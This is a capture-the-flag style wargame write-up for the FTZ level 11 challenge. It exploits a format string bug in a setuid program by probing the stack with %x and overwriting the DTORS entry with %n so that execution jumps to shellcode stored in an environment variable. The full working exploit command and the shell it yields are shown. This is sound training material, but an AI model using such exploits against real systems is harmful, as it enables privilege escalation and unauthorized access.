 # Level11

## This level's goal

- FSB(Format String Bug)
- Shell code

***

```
[level11@ftz level11]$ ls -l
total 28
-rwsr-x---    1 level12  level11     13733 Mar  8  2003 attackme
-rw-r-----    1 root     level11       168 Mar  8  2003 hint
drwxr-xr-x    2 root     level11      4096 Feb 24  2002 public_html
drwxrwxr-x    2 root     level11      4096 Jan 14  2009 tmp

[level11@ftz level11]$ cat hint

#include <stdio.h>
#include <stdlib.h>

int main( int argc, char *argv[] )
{
        char str[256];

        setreuid( 3092, 3092 );
        strcpy( str, argv[1] );
        printf( str );
}
```

The hint seems the vulnerability of FSB and BOF   
I will exploit with FSB

```
[level11@ftz level11]$ ./attackme
Segmentation fault
```

This seems that Segmentation falut will be printed if there is no argument and then the argv[1] is the value of garbage.

```
[level11@ftz level11]$ ./attackme "AAAA"
AAAA
[level11@ftz level11]$ ./attackme "AAAA %x"
AAAA bffffc40
[level11@ftz level11]$ ./attackme "AAAA %x %x"
AAAA bffffc3d bffff300
[level11@ftz level11]$ ./attackme "AAAA %x %x %x"
AAAA bffffc3a bfffdb80 1
[level11@ftz level11]$ ./attackme "AAAA %x %x %x %x"
AAAA bffffc37 bfffde00 1 41414141
```

AAAA means 41414141

```
[level11@ftz level11]$ nm attackme
08049610 d __DTOR_END__

[level11@ftz tmp]$ ./egg
Using address: 0xbfffe988

[level11@ftz tmp]$ ./getenv
SUPERDK's addr=0xbffff49d
```
the attack code format   
`/home/level11/attackme $(printf "AAAAAddress1BBBBAddress2")%8x%8x%8x%Value1c%n%Value2c%n`

Address1 : \x10\x96\x04\x08(08049610)   
Address2(Address+1) : \x12\x96\x04\x08(08049612)   

0xbffff49d will be (Value2/Value1) cuz this will be inverted when you input   
value1 : f49d - 40 = 62621(f49d) - 40 = 62581   
value2 : 1bfff-f49d = 114687(1bfff) - 62621(f49d) = 52066

So, the attack code is   
`/home/level11/attackme $(printf "AAAA\x10\x96\x04\x08BBBB\x12\x96\x04\x08")%8x%8x%8x%62581c%n%52066c%n`

```
[level11@ftz level11]$ ./attackme $(printf "AAAA\x10\x96\x04\x08BBBB\x12\x96\x04\x08")%8x%8x%8x%62581c%n%52066c%n

sh-2.05b$ my-pass

Level12 Password is "it is like this".
```
